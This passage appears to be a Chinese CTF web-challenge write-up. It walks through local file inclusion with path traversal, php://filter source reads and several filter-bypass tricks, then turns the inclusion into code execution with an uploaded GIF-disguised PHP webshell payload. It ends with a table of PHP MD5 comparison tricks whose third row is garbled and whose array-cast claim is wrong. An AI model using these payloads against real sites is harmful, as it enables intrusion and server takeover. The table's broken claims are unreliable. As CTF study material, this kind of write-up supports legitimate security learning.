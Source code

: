    ```
   ../../../../flag.txt
   ```

   提交后如果页面直接回显
   `恭喜！你领悟了魔物饭的美味之处，这是你的奖励 flag{…}`
   那就结束战斗。
   如果返回空白、报错、或提示“文件不存在”，继续下一步。
6. 换“PHP 过滤器”读源码
   后端有可能把 `.txt` 当成 PHP 执行，结果空白；这时用伪协议让它只读不执行：

   ```
   php://filter/read=convert.base64-encode/resource=../../../../flag.txt
   ```

   你会得到一串 Base64，解码即可看到 flag。
   （这个技巧同样适用于读 `.php` 源码，比如想看他到底怎么 include 的。）
7. 如果过滤了关键字
   – 过滤 `../` → 用双写 `....//` 或 URL 编码 `..%2f..%2f`
   – 过滤 `flag` → 用通配符 `fla?` 或 `fl*`（部分系统支持）
   – 过滤 `php://` → 尝试 data://、input://，或者短标签 `pHp://` 大小写绕过
   总之**它过滤什么，就针对什么做变形**，直到路径能出现回显。
8. 进阶：把“读文件”升级成“RCE”
   如果题目允许上传（比如再给你一处“上传头像”功能），可以：

   1. 传一张带 PHP 码的图片马：
      `GIF89a<?=@eval($_POST[x]);?>`
   2. 用刚才的包含点去 `include` 这个图片：
      `../../../../upload/2023xxx/shell.gif`
   3. 拿到 WebShell，想读什么读什么，甚至 cat /root/flag.txt。

---

一句话总结思路
“先找输入→探路径→测过滤→目录遍历到根→伪协议兜底→上传就升 RCE”。

把这条流水线背下来，再遇到“包含类” Web 题，5 分钟就能自己打出 flag。祝你下一次秒出题！


**“看到 Parse error，就等于 PHP 已经开机解析。”**
再配合路径被完整拼出来，就能瞬间判定：
→ 后端在用 `include`/`require`（或 `include_once`/`require_once`）
→ 存在本地文件包含（LFI）漏洞。




/////////////////////////////////////////////////////////////////////////////


### 三重 MD5 闯关要求

**表格**复制


| 关卡 | 比较运算符                                                                             | 要求（必须同时满足）                                                                                                  |
| :--- | :------------------------------------------------------------------------------------- | :-------------------------------------------------------------------------------------------------------------------- |
| 1    | `md5($a) == md5($b)`                                                                   | ①`$a !== $b`（值或类型至少有一项不同）<br/>② 弱比较相等 → 用“0e 科学计数法”即可                                  |
| 2    | `md5((string)$a) === md5((string)$b)`                                                  | ①`$a !== $b`<br/>② 强比较相等 → **数组 trick**：`md5((string)数组)` 返回 **NULL**，两个 NULL 恒等                  |
| 3    | `md5((string)$a) === md5((string)$b)` 且 **(string)**a**!**==**(**s**t**r**in**g**)b** | ① 摘要强相等<br/>② 字符串形式**必须不相等** → 继续用**数组 trick**，但让 `(string)$a` 与 `(string)$b` 长度不同即可 |

---